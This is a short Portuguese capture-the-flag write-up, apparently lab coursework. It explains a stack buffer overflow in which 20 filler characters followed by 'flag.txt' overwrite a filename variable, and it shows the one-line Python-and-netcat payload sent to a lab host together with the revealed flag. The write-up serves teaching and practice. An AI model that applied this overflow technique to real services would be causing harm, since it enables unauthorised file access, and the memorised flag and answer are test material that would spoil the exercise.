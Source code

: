 # CTF 5

## Desafio 1

- Correndo o comando **checksec** conseguimos perceber que não existe nenhum **cannary** a proteger o **return address** da stack.

- Sabemos tambem que a flag encontra-se no ficheiro **flag.txt**, dentro do working directory.

![Figura 5_1](pic5_1.png)

- Explorando o programa que nos é fornecido vemos que na stack apenas existe um **buffer** com espaço para 20 caracteres e o **meme_file** que é aberto pelo **fopen** com permissões de read.

- Para além disso o scanf efetuado ao buffer tem como parametro **%28s** que permite ler 28 caracteres.

- Então, com um pequeno script de python a auxiliar, concatenamos 20 caracteres para encher o buffer com a string **flag.txt** para dar override ao valor de meme_file na stack e assim abrir o ficheiro que permite obter a flag.

```java
[11/26/21]seed@VM:~/.../Semana5-Desafio1$ python3 -c "print('A'*20+'flag.txt')" | nc 10.227.243.188 4003
Try to unlock the flag.
Show me what you got:Echo AAAAAAAAAAAAAAAAAAAAflag.txt
I like what you got!
flag{9ed2a12605463baa541166f87905e051}
```
